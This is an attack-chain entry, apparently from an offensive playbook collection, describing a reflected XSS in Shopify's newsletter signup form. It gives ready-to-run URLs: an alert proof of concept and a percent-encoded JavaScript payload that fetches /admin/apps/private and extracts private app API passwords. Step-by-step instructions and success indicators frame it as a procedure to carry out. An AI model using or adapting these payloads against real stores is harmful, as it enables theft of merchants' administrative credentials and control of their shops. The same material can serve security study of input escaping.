

---
tags:
  - xss
  - shopify
  - ruby-on-rails
  - api-key-theft
  - reflective-xss
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-Reflective-XSS-in-Newsletter-Form]]'
  - '[[procedures/Analyze-HTML-Output-for-Injection-Point]]'
  - '[[procedures/Exploit-XSS-to-Steal-Administrative-API-Keys]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[Credentials In Files]]'
updated_at: '2025-12-13T23:55:06.649Z'
description: >-
  A multi-stage attack exploiting a reflective XSS vulnerability in Shopify's
  newsletter signup form to inject JavaScript, fetch internal admin endpoints,
  and extract private app API keys.
skill_level: intermediate
impact_level: high
id: 10382467-4a54-49ea-a122-db43a5ef9259
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Credentials In Files]]'
---
# Reflective XSS in Shopify Newsletter Form to Steal Admin API Keys

Multi-stage attack chain demonstrating exploitation of a reflective XSS vulnerability in Shopify's newsletter signup form on *.myshopify.com domains, leveraging Ruby on Rails mass assignment to inject JavaScript and steal administrative API keys from private apps.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for inspection
- URL encoding tool (built-in browser or online)

### Target Environment

- Shopify store on *.myshopify.com
- Access to newsletter signup form
- No authentication required for public form

### Initial Access Requirements

- Public internet access to target store
- No credentials needed; exploit is unauthenticated

## Detailed Attack Procedures

### Step 1: Identify Reflective XSS in Newsletter Form
procedure: [[procedures/Identify-Reflective-XSS-in-Newsletter-Form]]

**Objective**: Confirm the presence of a reflective XSS vulnerability in the contact[email] parameter of the newsletter form by injecting a basic payload that triggers an alert.

**Instructions**: Construct a URL with the target store, appending the malicious contact[email] parameter encoded to inject an onfocus attribute with JavaScript. Use [[commands/shopify-newsletter-xss-alert]] to test:

```bash
https://testbuguser.myshopify.com/?contact[email]%20onfocus%3djavascript:alert(%27xss%27)%20autofocus%20a=a&form_type[a]aaa
```

Load the URL in a browser and observe the page load triggering the payload.

**Expected Output**: An alert box displaying 'xss' upon page load, confirming attribute injection.

**Success Indicators**:
- Alert executes without errors
- Input tag in HTML shows injected attributes

### Step 2: Analyze HTML Output for Injection Point
procedure: [[procedures/Analyze-HTML-Output-for-Injection-Point]]

**Objective**: Inspect the rendered HTML to understand how Ruby on Rails mass assignment allows unescaped quotes in the input value attribute, enabling breakout.

**Instructions**: After loading the basic PoC URL, use browser developer tools to view the page source. Look for the newsletter form's input tag where contact[email] is reflected. Note the structure like <input value="injected payload" ...> and identify the unescaped quote allowing attribute addition.

**Expected Output**: HTML snippet showing breakout, e.g., <input value="" onfocus=javascript:alert('xss') autofocus a="a" ...>.

**Success Indicators**:
- Unescaped quotes in value attribute confirmed
- Ability to inject custom attributes observed

### Step 3: Exploit XSS to Steal Administrative API Keys
procedure: [[procedures/Exploit-XSS-to-Steal-Administrative-API-Keys]]

**Objective**: Inject advanced JavaScript via the XSS to fetch internal admin endpoints, parse responses, and extract private app API passwords.

**Instructions**: Encode and append the advanced payload to the contact[email] parameter using [[commands/shopify-newsletter-xss-steal-api-key]] on a target store URL:

```bash
https://bugbountyayo.myshopify.com/?contact[email] onfocus%3djavascript:%66%65%74%63%68%28%27%2f%61%64%6d%69%6e%2f%61%70%70%73%2f%70%72%69%76%61%74%65%27%2c%7b%68%65%61%64%65%72%73%3a%7b%27%58%2d%53%68%6f%70%69%66%79%2d%57%65%62%27%3a%31%7d%7d%29%2e%74%68%65%6e%28%66%75%6e%63%74%69%6f%6e%28%64%61%74%61%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%64%61%74%61%2e%74%65%78%74%28%29%2e%74%68%65%6e%28%66%75%6e%63%74%69%6f%6e%28%64%61%74%61%29%7b%66%65%74%63%68%28%27%2f%61%64%6d%69%6e%2f%61%70%70%73%2f%70%72%69%76%61%74%65%2f%27%2b%64%61%74%61%2e%73%70%6c%69%74%28%27%68%72%65%66%3d%22%2f%61%64%6d%69%6e%2f%61%70%70%73%2f%70%72%69%76%61%74%65%2f%27%29%2e%70%6f%70%28%29%2e%73%70%6c%69%74%28%27%22%27%29%2e%73%68%69%66%74%28%29%2c%7b%68%65%61%64%65%72%73%3a%7b%27%58%2d%53%68%6f%70%69%66%79%2d%57%65%62%27%3a%31%7d%7d%29%2e%74%68%65%6e%28%66%75%6e%63%74%69%6f%6e%28%64%61%74%61%29%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%64%61%74%61%2e%74%65%78%74%28%29%2e%74%68%65%6e%28%66%75%6e%63%74%69%6f%6e%28%64%61%74%61%29%7b%61%6c%65%72%74%28%64%61%74%61%2e%73%70%6c%69%74%28%27%69%64%3d%22%70%72%69%76%61%74%65%5f%61%70%70%5f%70%61%73%73%77%6f%72%64%22%27%29%2e%70%6f%70%28%29%2e%73%70%6c%69%74%28%27%76%61%6c%75%65%3d%22%27%29%2e%73%6c%69%63%65%28%31%29%2e%73%68%69%66%74%28%29%2e%73%70%6c%69%74%28%27%22%27%29%2e%73%68%69%66%74%28%29%29%7d%29%29%7d%29%7d%29%29%7d%29 autofocus a=a&form_type[a]aaa
```

The payload uses fetch to access /admin/apps/private with X-Shopify-Web header, parses the response with string methods to get an app ID, fetches the app details, and alerts the password from the private_app_password field.

**Expected Output**: Console logs of responses and an alert displaying the extracted API password.

**Success Indicators**:
- Fetch requests to admin endpoints succeed
- Alert shows valid API key format (e.g., shpss_...)

## Attack Chain Summary

### Key Achievements

1. Confirmed reflective XSS via attribute injection in newsletter form
2. Analyzed RoR mass assignment flaw for payload crafting
3. Stole private app API keys enabling admin actions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Credentials In Files]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
